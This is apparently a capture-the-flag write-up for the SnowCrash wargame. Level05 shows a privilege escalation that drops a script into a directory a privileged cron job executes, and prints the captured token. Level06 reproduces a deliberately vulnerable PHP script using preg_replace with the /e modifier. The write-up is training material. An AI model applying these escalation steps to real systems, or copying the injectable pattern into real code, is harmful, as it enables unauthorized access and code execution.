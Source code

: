 Upon login received:
You have new mail.

home dir empty

	cat /var/mail/level05

outputs:
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

The syntax is from chrontab and it's saying this is executed every 2 minutes, the command will log into flag05 and execute `sh /usr/sbin/openarenaserver`

	level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done


It appears that every 2 min each file in /opt/openarenaserver will run `bash -x` executing the command

	echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag

after waiting about a minute

	cat /tmp/flag
outputs:
> Check flag.Here is your token : viuaaale9huek52boumoomioc

## level06

home dir has 2 files, an exec and a php file.
I use https://beautifytools.com/php-beautifier.php to beautify the php file because it is unreadable

	#!/usr/bin/php
	<?php
	function y($m)
	{
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}
	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}
	$r = x($argv[1], $argv[2]);
	print $r;
	?>
